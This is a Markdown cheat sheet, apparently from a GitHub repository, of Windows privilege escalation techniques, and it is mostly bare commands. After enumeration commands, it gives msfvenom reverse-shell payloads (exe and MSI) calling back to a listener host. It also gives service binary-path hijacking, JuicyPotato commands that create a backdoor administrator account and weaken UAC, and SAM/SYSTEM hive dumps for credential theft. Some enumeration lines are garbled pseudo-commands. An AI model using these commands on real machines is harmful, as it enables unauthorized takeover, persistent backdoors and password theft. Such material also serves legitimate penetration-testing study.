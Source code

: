 # Windows Privilege Escalation Techniques

## Windows Internal Enumeration

### System Enumeration

```powershell
systeminfo
windows version registry key print
.\winPease.exe
```

### Network Enumeration

```powershell
netstat -nat
```

### User Enumeration

```powershell

whoami /priv, whoami /all
net user <user>
```

## Group Enumeration

```powershell
net group
```

### Services Enumeration

```powershell
services
```

### Files Enumeration

```powershell
icacls file.txt
```

## Abusing groups

### Server Operators
Create/Modify Services

```powershell
# MSFVenom Reverse Shell (Specify x32/x64 bits)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > rev.exe

# Modiying binary
sc.exe config VMTools binpath="C:\Users\Janrdz\Desktop\shell.exe"
```
## Abusing Privileges

### SeImpersonatePrivilege
#### [JuicyPotato](https://github.com/k4sth4/Juicy-Potato)

```powershell
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user jan jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

### AlwaysInstallElevated

Create a payload.msi with MSFVenom (Reverse Shell)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

### SeBackupPrivilege

Create a copy of SYSTEM and SAM dump with [secretsdump.py](https://github.com/fin3ss3g0d/secretsdump.py)

```powershell
PS C:\Temp> reg save HKLM\system system
PS C:\Temp> reg save HKLM\sam sam
```
